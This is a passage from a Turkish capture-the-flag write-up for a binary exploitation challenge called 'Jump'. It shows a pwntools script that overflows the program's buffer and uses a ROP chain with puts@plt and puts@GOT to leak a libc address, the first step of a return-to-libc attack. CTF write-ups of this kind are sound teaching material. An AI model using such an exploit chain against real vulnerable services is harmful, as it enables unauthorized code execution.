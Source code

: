 ![first look](https://github.com/lntrx/STMCTF_PWN_Writeup/blob/master/Jump/screenshots/8.png)

Maalesef sunucu ayakta olmadığı için deneyemeyiz ve benim de çok vaktim olmadığı için bunu uygulamalı gösteremem. 

Bundan sonra adress alıp hesaplama olacağından bundan sonrasını elle yapmak yerine program ile yapacağız.

```python
from pwn import *
import os
import posix
from struct import *

puts_plt = 0x08048390
puts_got = 0x08049ff0

fake_main = 0xdeadbeef

rop = ""
rop += p32(puts_plt)		# puts PLT 
rop += p32(fake_main)		# fake exit
rop += p32(puts_got)		# puts GOT

payload = "A"*44 + rop

prog = os.path.abspath("./jump")

p = process(prog)


print p.recv(15)	# "Deger giriniz:\n"

p.sendline(payload)

leak = p.recv(4)

puts_libc = u32(leak)
log.info("puts@libc: 0x%x" % puts_libc)
p.clean()
```

Çok basit bir şekilde ilk adımı gerçekleştiriyoruz. Deneyelim:

![first look](https://github.com/lntrx/STMCTF_PWN_Writeup/blob/master/Jump/screenshots/10.png)
